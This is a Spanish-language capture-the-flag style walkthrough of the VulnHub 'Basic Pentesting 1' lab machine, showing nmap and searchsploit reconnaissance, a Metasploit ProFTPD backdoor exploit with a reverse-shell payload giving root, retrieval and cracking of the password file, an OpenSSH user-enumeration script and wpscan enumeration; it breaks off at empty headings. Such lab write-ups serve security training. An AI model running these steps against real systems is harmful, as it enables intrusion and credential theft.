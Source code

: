 # Máquina vulnerable de vulnhub
Dificultad: 
  Fácil

Fuente:
  https://www.vulnhub.com/entry/basic-pentesting-1,216/

<img src="https://www.vulnhub.com/media/img/entry/watermarked/abee4bba0a38da507a6e8697537f04af9dfa63a6.png" align="top" width="640" height="480"></img>

# Explotación de la máquina
Averiguramos la ip de la máquina a explotar
nmap -sL 192.168.56.0/24<br>
Nmap scan report for vtcsec (192.168.56.103)<p>
<img src="https://github.com/aguayro/ciberseguridad/blob/a745f89a3fc90a98d3a4f07b21de74ac652dc09a/pentesting/vulnhub/csec/img/nmap-01.png" align="top"></img>

Descubrir los puertos abiertos en la máquina<br>
nmap -p- -n -sC -sV -sS 192.168.56.103 -oN csec.txt<br>
<img src="https://github.com/aguayro/ciberseguridad/blob/9d7277331e01053a7b9794343b4afd07f7897f5a/pentesting/vulnhub/csec/img/nmap-02.png" align="top"></img>

Resulta interesante el parametro -vvv del nmap<br>
nmap -vvv 192.168.56.103<br>
<img src="https://github.com/aguayro/ciberseguridad/blob/53901a26143a93b583d1ade1f88935691a55f379/pentesting/vulnhub/csec/img/nmap-03.png" align="top"></img>

## Explotación de las vulnerabilidades
La máquina tiene abiertos los siguientes puertos:
<ul>
  <li>21 ftp ProFTPD 1.3.3c</li>
  <li>22 ssh OpenSSH 7.2p2 Ubuntu 4ubuntu2.2</li>
  <li>80 http Apache/2.4.18 (Ubuntu)</li>
</ul>
    
<p></p>
Veamos que vulnerabilidades tiene los servicios indicados:<br>
nmap -script=vuln 192.168.56.103<br>

<img src="https://github.com/aguayro/ciberseguridad/blob/90586e32fd3113ce47e72e032c3452ac827ea62c/pentesting/vulnhub/csec/img/nmap-04.png" align="top"></img>  

### Servicio proftp 1.3.3c
La versión del proftp 1.3.3c tiene una puerta trasera que puede ser explotada<br>
    
searchsploit proftp 1.3.3c
<img src="https://github.com/aguayro/ciberseguridad/blob/b3316b172c48a3a956056b56326f179c04370e7d/pentesting/vulnhub/csec/img/proftp-01.png" align="top"></img> 

Tenemos dos script para poder usar para explotar la vulnerabilidad del servicio de puerta trasera, un script realizado en python y el otro para el framework metasploit
  
### Open ssh 7.2p2
Nmap no detecta ninguna vulnerabilidad en el servicio, pero si buscamos por searchsploit nos devuelve algunas cositas.
<img src="https://github.com/aguayro/ciberseguridad/blob/b13203f5b3d251772fd995fc7967ec690883c828/pentesting/vulnhub/csec/img/open-ssh-01.png" align="top"></img> 

Es posible realizar enumeración de los usuarios, por otro lado buscando en internet nos aparecen varias referencias a vulnerabilidad en versiones anteriores 

<a href="https://thehackernews.com/2023/07/new-openssh-vulnerability-exposes-linux.html">Vulnerabilidad openssh < 9.2</a>

### Apache httpd 2.4.18
Nmap nos reportado vulnerable a ataque DOS, buscamos información sobre posibles fallos en la versión de apache 2.4.18 y encontramos lo siguiente:<br>

searchsploit apache 2.4.18
<img src="https://github.com/aguayro/ciberseguridad/blob/96659ac542e55b25fa49831a77b3881da6f26b60/pentesting/vulnhub/csec/img/apache-01.png" align="top"></img> 

Vulnerabilidad de apache que permite la escalación de privilegios: CVE-2019-0211<br>
<img src="https://github.com/aguayro/ciberseguridad/blob/841df8e72fdfcb8f6714df3ae4d7d29437f65a6a/pentesting/vulnhub/csec/img/apache-02.png" align="top"></img> 

Vulnerabilidad de memory leak: CVE-2017-9798<br>
<img src="https://github.com/aguayro/ciberseguridad/blob/aa60a0c51dd73f839bc34c3d3c09817d829f5e8d/pentesting/vulnhub/csec/img/apache-03.png" align="top"></img> 

Por otro lado hay que investigar que se esconde dentro de la carpeta /secret

<hr>

# Vectores de ataque:
## Vulnerabilidad proftp 1.3.3c
Ejecutamos metasploit<br>
<img src="https://github.com/aguayro/ciberseguridad/blob/ae116da2525d422aff0965f39b89ef32cff38a60/pentesting/vulnhub/csec/img/metasploit.png" align="top"></img> 

Buscamos vulnetabilidad para el servicio ftp para la versión de 1.3.3c de proftp
msf6 > search proftp 1.3.3c
<img src="https://github.com/aguayro/ciberseguridad/blob/40d937f0b8672e179afb9c60320a9e1b2989c72b/pentesting/vulnhub/csec/img/proftp-02.png" align="top"></img> 

Usamos el script por defecto y lo configuramos<br>
msf6 > use 0<br>
<img src="https://github.com/aguayro/ciberseguridad/blob/93177fa15813fc3257205e9c834a488095959599/pentesting/vulnhub/csec/img/proftp-03.png" align="top"></img> 

Cargamos un payload para que nos crea una sessión en la máquina atacada
msf6 > show payloads<br>
msf6 > set payload payload/cmd/unix/reverse<br>
<img src="https://github.com/aguayro/ciberseguridad/blob/e9911ef860e7613d0b3da81e09fdb1e9094b0099/pentesting/vulnhub/csec/img/proftp-04.png" align="top"></img> 

Lanzamos el script
msf6 > run<br>
<img src="https://github.com/aguayro/ciberseguridad/blob/cc1095ed762cb9e1fd78bb73e2567a255be7ace0/pentesting/vulnhub/csec/img/proftp-05.png"  align="top"></img> 

Nos devuelve un error indicando que falta por configurar la dirección ip desde donde se lanza el ataque para el reverse shell, configuramos lo que nos falta y volvemos a lanzar el script.<br>
<img src="https://github.com/aguayro/ciberseguridad/blob/24178c71f4341e9de2afd16f14336ddfc4076de7/pentesting/vulnhub/csec/img/proftp-06.png"  align="top"></img> 

El script funciona correctamente y nos devuelve una shell, comprobamos que somos root en la máquina csec.<br>

Descargamos el fichero de claves para crackearlo con johh the ripper<br>
<img src="https://github.com/aguayro/ciberseguridad/blob/f1bae791f185d5963026a151379df0ecdd7308f4/pentesting/vulnhub/csec/img/proftp-09.png"  align="top"></img> 

<p>
Usuario: marlinspike<br>
Contraseña: marlinspike
</p>

## Vulnerabilidad openssh 7.2p2
Realizando una búsquedad en searchsploit encontramos varias vulnerabilidades de enumeración de usuarios del servicio openssh 7.2p2 que produce un desbordamiento de buffer.

<img src="https://github.com/aguayro/ciberseguridad/blob/38a03cc3cb97bc020d9c268810af5bb7a6e4690d/pentesting/vulnhub/csec/img/open-ssh-02.png"  align="top"></img> 

Comprobamos el script en python 40136<br>
python /usr/share/exploitdb/exploits/linux/remote/40136.py -e -u marlinspike 192.168.56.103 
<img src="https://github.com/aguayro/ciberseguridad/blob/a1cac0cc1738057621d2735bc7f45962fccebdbe/pentesting/vulnhub/csec/img/openssh-03.png"  align="top"></img> 

<a href="https://blog.nviso.eu/2018/08/21/openssh-user-enumeration-vulnerability-a-close-look">Explicación vulnerabilidad openssh</a>

## Vulnerabilidad Apache 2.4.18
En el servidor apache tenemos varios vectores de ataque, como hemos visto anteriormente.<br>
Comprobamos la versión de apache que nos ha devuelto nmap con el comando whatweb.<br>
whatweb 192.168.56.103<br>

<img src="https://github.com/aguayro/ciberseguridad/blob/9634d094f8d9355df2582ec93f95f318163e63a1/pentesting/vulnhub/csec/img/apache-04.png" align="top"></img> 

Accedemos a la web para comprobar su contenido<br>
<img src="https://github.com/aguayro/ciberseguridad/blob/48d9bd19f8ac13c1695f24c82f1446336a1824f6/pentesting/vulnhub/csec/img/apache-05.png" align="top"></img>

No nos muestra gran cosa, sólo la página por defecto del servidor apache. Investigamos si hay otros directorios servidor con la ayuda de gobuster o dirb
gobuster dir -u 192.168.56.103 -e -w /usr/share/wordlists/dirb/common.txt<br>

<img src="https://github.com/aguayro/ciberseguridad/blob/58afd99a4e6df8e8f0b34e4587a584314ac6616c/pentesting/vulnhub/csec/img/apache-06.png" align="top"></img>
Parece que hemos descubierto un directorio oculto en el servidor apache, vamos a ver lo que hay dentro.<br>

<img src="https://github.com/aguayro/ciberseguridad/blob/80d1ae24e03fa84c46f1cc41c6e086380ad25b26/pentesting/vulnhub/csec/img/apache-07.png" align="top"></img>
Tenemos un blog en wordpress, veamos si podemos averiguar los usuarios y contraseñas que hay definidas en el portal. Posteriormente buscaremos vulnerabilidades en el wordpress y sus plugins.<br>

wpscan –url http://192.168.56.103/secret –-enumerate u<br>
<img src="https://github.com/aguayro/ciberseguridad/blob/c09af268905fdaeeea5aab43aacb4f944b5bf689/pentesting/vulnhub/csec/img/apache-10.png"  align="top"></img>
Hemos tenido suerte hemos encontrado el usuario admin 

wpscan --url http://192.168.56.103/secret --wp-content-dir /wp-content/ --enumerate u --plugins-detection aggressive<br>
<img src="https://github.com/aguayro/ciberseguridad/blob/147454d014af7d5cd45e6d805a72fc8c4e2f42d2/pentesting/vulnhub/csec/img/apache-08.png"  align="top"></img>

Nos identifica varias vulnerabilidades de wordpress:
#### Wordpress 4.9 

### Ataque DOS
### 
  
  

  
